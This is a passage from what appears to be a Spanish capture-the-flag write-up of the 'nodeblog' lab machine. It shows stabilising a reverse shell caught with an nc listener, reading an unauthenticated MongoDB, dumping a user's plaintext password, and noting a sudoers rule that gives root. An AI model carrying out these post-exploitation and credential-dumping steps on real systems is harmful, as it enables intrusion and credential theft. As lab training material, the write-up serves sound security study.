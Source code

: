 ```null
admin@nodeblog:/opt/blog$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
admin@nodeblog:/opt/blog$ export TERM=xterm-color
admin@nodeblog:/opt/blog$ stty rows 55 columns 209
admin@nodeblog:/opt/blog$ source /etc/skel/.bashrc 
```

Me conecto ```MongoDB```

```null
admin@nodeblog:~$ mongo
MongoDB shell version v3.6.8
connecting to: mongodb://127.0.0.1:27017
Implicit session: session { "id" : UUID("a7ddf806-b25a-468c-82cb-56bb4581de90") }
MongoDB server version: 3.6.8
Server has startup warnings: 
2023-07-28T09:32:26.397+0000 I CONTROL  [initandlisten] 
2023-07-28T09:32:26.397+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2023-07-28T09:32:26.397+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2023-07-28T09:32:26.397+0000 I CONTROL  [initandlisten] 
```

Listo las bases de datos

```null
> show dbs
admin   0.000GB
blog    0.000GB
config  0.000GB
local   0.000GB
```

Para ```blog```, las tablas

```null
> use blog
switched to db blog
> show collections
articles
users
```

Dumpeo los datos

```null
> db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```

Corresponde a la contraseña de ```admin``` a nivel de sistema. Puedo convertirme en ```root```, ya que en en ```sudoers``` está establecida una regla, por la cual puedo ejecutar cualquier comando como cualquier usuario
